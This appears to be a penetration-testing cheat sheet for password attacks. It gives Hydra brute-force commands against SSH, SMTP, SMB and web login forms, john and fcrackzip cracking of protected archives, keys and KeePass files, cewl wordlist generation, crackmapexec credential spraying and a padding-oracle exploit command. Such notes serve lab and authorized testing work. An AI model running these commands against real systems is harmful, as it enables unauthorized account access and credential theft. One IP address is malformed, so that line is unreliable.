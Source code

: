  ```
  - Specify a port with `-s <PORT>` in <options>
- `hydra -L usernames.txt -P passwords.txt 192.168.244.140 smtp -e nsr`
- `hydra -L usernames.txt -P usernames.txt 192.168.182.216 ssh -e nsr`
- `sudo hydra -L usernames.txt -P passwords.txt 192.168.157.21 smb2 -e nsr`
- `hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.190.208:7080/login.php/session:userid=^USER64^&pass=^PASS64^:C=/:F=403' -e nsr`

SSH Attack
- `sudo hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`
  - `-l` specify the target username
  - `-P` specify a wordlist
  - `protocol://IP` o specify the target protocol and IP address respectively

HTTP POST Attack
- `sudo hydra http-form-post -U`
- `sudo hydra -l user -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
  - `-l` user name
  - `-P` wordlist
  - `-vV` verbose output
  - `-f` stop the attack when the first successful result is found
  - supply the service module name `http-form-post` and its required arguments `/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN`

### Password protected files
- dfcrack -f Infrastructure.pdf -w /usr/share/wordlists/rockyou.txt
- rar2john backup.rar > crackme
  - john --wordlist=/usr/share/wordlists/rockyou.txt crackme
  - same for zip2john
- ssh2john id_rsa > ssh.hash
  john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
- office2john RSA-Secured-Document-PII.docx > hash.txt
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
- keepass2john jeeves.kdbx > jeeves.hash
  john jeeves.hash
- fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup1.zip

### Custom wordlists
- Cewl
  - (at first, use just this list) `cewl http://192.168.134.126/ --with-numbers -w custom-wordlist.txt`
  - `cewl -d 5 -m 3 http://192.168.220.115/ -w custom-wordlist.txt`
  - `cewl --lowercase http://192.168.13444.126/ | grep -v CeWL >> custom-wordlist.txt`
  - `sort custom-wordlist.txt | uniq -u > final-wordlist.txt`
- generate usernames
  - `python2 ~/Documents/scripts/usernamer.py -f full_names.txt`
- `cupp -i`

### More attacks
- `crackmapexec ssh 192.168.220.240 -u usernames.txt -p passwords.txt --continue-on-success`
- AES-256-CBC-PKCS7: https://github.com/mpgn/Padding-oracle-attack
  - `python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.229.119:2290 -u '/?c=' --error '<span id="MyLabel">0</span>'`

### Leveraging Password Hashes

**Tools**
- [Sample password hash encoding strings](https://openwall.info/wiki/john/sample-hashes)
- [hashID](https://psypanda.github.io/hashID/)
- [hash-identifier](https://www.kali.org/tools/hash-identifier/)
- [mimikatz](https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html)
- [fgdump](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
- [Credential Editor](https://www.ampliasecurity.com/research/windows-credentials-editor/)
  ```